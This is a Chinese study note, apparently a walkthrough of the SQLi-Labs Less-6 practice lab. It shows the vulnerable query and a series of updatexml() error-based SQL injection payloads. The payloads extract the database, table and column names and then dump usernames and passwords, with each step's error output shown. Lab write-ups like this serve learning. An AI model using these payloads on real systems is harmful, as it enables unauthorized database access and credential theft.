 ```yaml
---
title: less6
url: https://www.yuque.com/u29002979/ep2zrx/dwu3xvhhfplpb1gg
---
```


```bash
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

`?id=1"`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"" LIMIT 0,1' at line 1

less6与less5的唯一区别在于闭合方式为双引号"\ <a name="MK1Je"></a>

# 用updatexml()函数进行报错注入

updatexml(1,1,1) <a name="nAWtm"></a>

## 查看数据库名称

`?id=1" or updatexml(1,concat(0x7e,(select database()),0x7e),1)--+`

> XPATH syntax error: '~security'

<a name="CeOmH"></a>

## 查看数据表名称

`?id=1" or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+`

> XPATH syntax error: '~emails,referers,uagents,users~'

<a name="vqZkZ"></a>

## 查看字段名称

`?id=1" or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1)--+`

> XPATH syntax error: '~id,username,password~'

<a name="dltOi"></a>

## 查看字段内容

`?id=1" or updatexml(1,concat(0x7e,(select group_concat(concat(username,' ^ ',password)) from users),0x7e),1)--+`

> XPATH syntax error: '~Dumb ^ Dumb,Angelina ^ I-kill-y'

substring(1,2,3)
`?id=1" or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,' ^ ',password)) from users),32,31),0x7e),1)--+`

> XPATH syntax error: '~ou,Dummy ^ p@ssword,secure ^ cr'

......
